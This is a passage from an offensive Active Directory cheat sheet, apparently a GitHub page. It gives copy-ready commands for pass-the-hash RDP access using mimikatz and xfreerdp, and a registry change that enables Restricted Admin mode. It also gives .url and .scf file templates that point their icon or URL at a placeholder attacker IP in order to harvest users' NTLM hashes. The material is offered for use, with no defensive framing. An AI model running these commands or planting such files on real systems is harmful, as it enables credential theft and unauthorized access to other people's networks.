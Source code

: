     ```powershell
    #We execute pass-the-hash using mimikatz and spawn an instance of mstsc.exe with the "/restrictedadmin" flag
    privilege::debug
    sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"
    
    #Then just click ok on the RDP dialogue and enjoy an interactive session as the user we impersonated
    ```
    
    ⧉ Copied!
    
- xFreeRDP:
    

```powershell
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

⧉ Copied!

:exclamation: If Restricted Admin mode is disabled on the remote machine we can connect on the host using another tool/protocol like psexec or winrm and enable it by creating the following registry key and setting it's value zero: "HKLM:\\System\\CurrentControlSet\\Control\\Lsa\\DisableRestrictedAdmin".

### URL File Attacks

- .url file
    
    ```
    [InternetShortcut]
    URL=whatever
    WorkingDirectory=whatever
    IconFile=\\<AttackersIp>\%USERNAME%.icon
    IconIndex=1
    ```
    
    ⧉ Copied!
    
    ```
    [InternetShortcut]
    URL=file://<AttackersIp>/leak/leak.html
    ```
    
    ⧉ Copied!
    
- .scf file
    
    ```
    [Shell]
    Command=2
    IconFile=\\<AttackersIp>\Share\test.ico
    [Taskbar]
    Command=ToggleDesktop
    ```
    